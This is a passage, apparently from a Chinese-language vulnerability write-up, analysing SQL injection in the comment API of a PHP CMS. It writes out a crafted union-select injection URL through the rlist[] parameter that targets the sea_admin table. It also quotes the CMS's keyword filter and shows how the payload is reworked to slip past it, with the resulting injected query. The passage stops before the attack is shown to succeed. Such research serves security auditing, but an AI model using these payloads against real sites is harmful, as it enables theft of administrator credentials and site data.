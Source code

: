这里把一些符号做了过滤，接着执行`$x = implode(',',$rlist);`，当`$x`不为空则执行`$ret[1] = Readrlist($x,1,10000);`，在函数`Readrlist`中  

```
$sql = "SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea\_comment WHERE m\_type=$type AND id in ($ids) AND ischeck=1 ORDER BY id DESC";

```

根据之前的内容分析，只要满足`id>0`且`$page不小于2`，构造类似`rlist[]=1234)sql语句`便可以执行语句。考虑到之前的拦截，尝试构造了  

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)@\`'\`union%2d%2d%0aselect%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

报错如下  

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZxBBHr3e8gBVAsfgc9ps6UJcmt6zFibazTjbl8kzvA4H9og2tDVEVzTg/640?wx_fmt=png)

全局搜索，在`Upload/include/sql.class.php`中

```
 if($querytype=='select')
  {
    $notallow1 = "\[^0-9a-z@\\.\_-\]{1,}(union|sleep|benchmark|load\_file|outfile)\[^0-9a-z@\\.-\]{1,}";
    //$notallow2 = "--|/\\\*";
    if(m\_eregi($notallow1,$db\_string)){exit('SQL check');}
    if(m\_eregi('<script',$db\_string)){exit('SQL check');}
    if(m\_eregi('/script',$db\_string)){exit('SQL check');}
    if(m\_eregi('script>',$db\_string)){exit('SQL check');}
    if(m\_eregi('if:',$db\_string)){exit('SQL check');}
    if(m\_eregi('--',$db\_string)){exit('SQL check');}
    if(m\_eregi('char(',$db\_string)){exit('SQL check');}
    if(m\_eregi('\*/',$db\_string)){exit('SQL check');}
  }

```

不允许有小写的`union`和`select`，重新构造

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZjouDmXunhd1xUG1otu4FN96MOGyn1sByplyv6FIgsmxZgXUEiaDmvTg/640?wx_fmt=png)

没执行，但是没有报拦截, 断点追踪，看看语句

```
SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea\_comment WHERE m\_type=1 AND id in (1)\`\\'\`UNION--
SELECT#
1,2,3,4,5,6,7,8,9,10,11#
from#
sea\_admin-- \\') AND ischeck=1 ORDER BY id DESC

```
